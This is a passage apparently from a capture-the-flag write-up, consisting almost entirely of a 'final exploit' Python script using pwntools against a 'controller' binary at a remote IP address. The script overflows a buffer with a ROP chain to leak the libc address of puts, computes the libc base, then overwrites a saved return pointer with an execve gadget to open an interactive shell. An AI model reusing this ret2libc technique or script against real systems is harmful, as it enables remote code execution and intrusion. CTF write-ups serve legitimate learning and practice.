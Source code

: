 Here’s the final exploit:

```
#!/usr/bin/env python3

from pwn import *

def send_numbers():
    # send numbers to calculator()
    print("Sending numbers...")
    r.recvuntil(": ")
    r.sendline("-65538 -130876")
    r.recvuntil("> ")
    r.sendline("2")
    r.recvuntil("> ")

context(os="linux", arch="amd64")
elf = context.binary = ELF("controller")
libc = ELF("./libc.so.6")

rop = ROP(elf)
pop_rdi = rop.find_gadget(["pop rdi", "ret"])[0]

r = remote("165.227.237.7", 32710)

buf = b""
buf += b"A"*40
buf += p64(pop_rdi)             # pop rdi; ret
buf += p64(elf.got.puts)        # puts() at GOT
buf += p64(elf.plt.puts)        # return to puts() at PLT to leak puts() at libc
buf += p64(0x00401066)          # re-exploit calculator() again

send_numbers()

print("Sending payload 1...")
r.sendline(buf)

r.recvline()
puts_leak = int.from_bytes(r.recvline()[:6], "little")
print(f"puts@libc leak: 0x{puts_leak:2x}")

libc.address = puts_leak - libc.sym.puts
print(f"libc base: 0x{libc.address:2x}")

execve_gadget_offset = 0x4f3d5
execve_gadget = libc.address + execve_gadget_offset
print(f"execve gadget: 0x{execve_gadget:2x}")

# overwrite calculator()'s saved return pointer with execve() gadget
buf = b""
buf += b"A"*40 + p64(execve_gadget)

send_numbers()

print("Sending payload 2...")
r.sendline(buf)

print("Getting shell...")
r.interactive()
```
